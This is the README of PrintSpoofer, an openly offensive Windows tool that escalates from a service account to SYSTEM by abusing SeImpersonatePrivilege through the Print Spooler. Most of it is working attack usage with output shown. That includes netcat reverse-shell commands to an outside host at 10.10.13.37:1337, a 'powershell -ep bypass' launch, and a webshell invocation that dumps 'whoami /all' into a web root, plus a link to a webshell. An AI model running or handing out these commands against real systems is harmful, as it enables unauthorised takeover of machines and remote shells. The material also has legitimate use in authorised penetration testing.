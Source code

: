 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on **Windows 10 and Server 2016/2019.**

For more information: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

```cmd
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can __execute commands__ but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

__Use case__: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```cmd
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```cmd
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are __logged on locally or via RDP__ (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

__Use case__: Terminal Session (RDP), VDI

```cmd
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

### Usage 4: run on webshell

```cmd
/c C:\inetpub\wwwroot\PrintSpoofer.exe -c "c:\\windows\\system32\\cmd.exe /c whoami /all > C:\\inetpub\\wwwroot\\tmp.txt & exit" && type C:\\inetpub\\wwwroot\\tmp.txt
```
**run twice for output command result** 

<p align="center">
  <img src="run_on_webshell.png">
</p>

[cmd.aspx](https://gist.github.com/Malayke/2ec681313cdb0892ebc3c9f7fc0baafc)
